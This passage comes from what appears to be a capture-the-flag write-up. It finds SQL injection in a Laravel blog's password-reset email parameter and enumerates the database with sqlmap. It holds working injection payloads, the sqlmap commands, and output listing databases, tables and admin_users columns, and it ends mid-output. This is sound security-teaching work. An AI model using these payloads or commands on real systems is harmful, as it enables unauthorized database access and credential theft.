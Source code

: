 ## SQLi

No dice on the admin portal, nothing on the regular login for the blog, but a stray quote gives a 500 error.

![500 error from stray quote]({{ page.img }}_server_error.png)

Furthermore making the email parameter equal to `&email=raccoon%40raccoon.xyz'+and+1='1` gives a positive result, meaning this is vulnerable to some form of injection. Here I can use sqlmap and manually dig around more in the laravel vulnerabilities while I wait. The results:

```bash
sqlmap -r reset_password.req --level 5 --risk 3 --batch --threads 10 --dbs
...
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=T10DCxeVCM6NmZPipm6SdRP9SfThntBVlASwv7y5&email=raccoon@raccoon.xyz' AND 3766=(SELECT (CASE WHEN (3766=3766) THEN 3766 ELSE (SELECT 4293 UNION SELECT 1203) END))-- xyjD

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: _token=T10DCxeVCM6NmZPipm6SdRP9SfThntBVlASwv7y5&email=raccoon@raccoon.xyz' AND 1353=BENCHMARK(5000000,MD5(0x6978634a))-- rrSJ
---
...
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog

sqlmap -r reset_password.req --level 5 --risk 3 --batch --threads 10 --tables -D usage_blog
...
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+

sqlmap -r reset_password.req --level 5 --risk 3 --batch --threads 10 -D usage_blog -T admin_users --columns
...
Database: usage_blog
Table: admin_users
[8 columns]
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| name           | varchar(255) |
```